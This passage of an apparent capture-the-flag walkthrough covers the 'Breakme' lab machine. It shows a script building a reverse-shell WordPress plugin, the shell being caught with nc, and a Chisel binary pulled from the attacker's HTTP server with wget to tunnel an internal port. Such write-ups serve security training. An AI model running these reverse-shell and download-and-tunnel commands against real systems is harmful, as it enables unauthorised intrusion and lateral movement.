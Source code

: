 <p>Navigate to the cloned directory and run the following:</p>
<pre>
python reversePress.py HOST_IP -p 1234 -l
</pre>
<p>A ZIP file should have been created in your working directory (the python script may have an error at the end, but it should still work). This needs to be uploaded and installed through the Wordpress admin page. Once installed, navigate to "https://&lt;target_domain&gt;/wp-content/plugins/reverse_shell_plugin/reverse_shell.php" in the browser. This should execute the payload and spawn a reverse shell:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.9.235.177] from (UNKNOWN) [10.10.49.132] 33522
</pre>

<h2>Step 4: Lateral privilege escalation to john</h2>
<p>Doing some exploring, I found some credentials to MariaDB database in a PHP configuration file. However, dumping the database and its stored credentials did not reveal anything new. Then, I decided to run the following command and discovered something running on port 9999. Could it be an internal webserver?</p>
<pre>
www-data@Breakme:/var/www/html/wordpress/wp-content/plugins/reverse_shell_plugin$ ss -tulnp
Netid            State             Recv-Q            Send-Q                         Local Address:Port                         Peer Address:Port            Process            
udp              UNCONN            0                 0                                    0.0.0.0:68                                0.0.0.0:*                                  
tcp              LISTEN            0                 80                                 127.0.0.1:3306                              0.0.0.0:*                                  
tcp              LISTEN            0                 4096                               127.0.0.1:9999                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                                  0.0.0.0:22                                0.0.0.0:*                                  
tcp              LISTEN            0                 511                                        *:80                                      *:*                                  
tcp              LISTEN            0                 128                                     [::]:22                                   [::]:*  
</pre>
<p>Further exploration revealed that it was indeed a webserver and that the process was running as its owner john. Therefore, I decided to forward the service to my local machine. As I did not have any ssh credentials, I was unsure how this could be done. After some Googling, I found out this could be achieved using "Chisel" which can be installed through apt on kali.</p>
<p>First, navigate to the directory where the Chisel binary is stored and spin up a Python server:</p>
<pre>
python3 -m http.server 4444
</pre>
<p>On the victim machine, download the chisel binary using wget or curl:</p>
<pre>
wget &lt;IP-Address&gt;&lt;PORT&gt;/chisel
</pre>
<p>On the attacking machine run:</p>
<pre>
./chisel server --port 1234 --reverse
</pre>
<p>On the target machine, run:</p>
<pre>
./chisel client &lt;YOUR_IP&gt;:1234 R:9999:127.0.0.1:9999
</pre>
<p>Now, open a browser and surf to localhost:9999 to view the contents of the webserver:</p>